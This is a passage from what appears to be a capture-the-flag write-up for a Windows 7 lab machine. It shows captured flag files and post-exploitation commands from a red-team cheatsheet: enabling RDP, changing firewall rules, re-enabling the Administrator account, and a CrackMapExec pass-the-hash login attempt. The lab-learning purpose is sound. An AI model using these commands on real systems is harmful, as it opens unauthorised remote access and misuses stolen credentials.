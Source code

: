 ```bash
C:\Windows\system32>type C:\Windows\System32\config\flag2.txt
type C:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```

### Flag3

```bash
C:\Windows\system32>type C:\Users\Jon\Documents\flag3.txt
type C:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```

## ETC
---

### Enable RDP 

> Source: https://0xsp.com/offensive/red-team-cheatsheet/

> Failed on this machine

Ensure the rdp is enabled

```bash
# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Add user to rdp group
net localgroup "Remote Desktop Users" Administrator /add

# Add firewall exceptions
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

Administrator account is disabled

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ cme smb 10.10.10.218 -u 'Administrator' -H '31d6cfe0d16ae931b73c59d7e0c089c0'

[*] completed: 100.00% (1/1)
SMB         10.10.10.218    445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)

[*] completed: 100.00% (1/1)
SMB         10.10.10.218    445    JON-PC           [-] Jon-PC\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED
```

Activate it

```bash
net user Administrator /active:yes
```
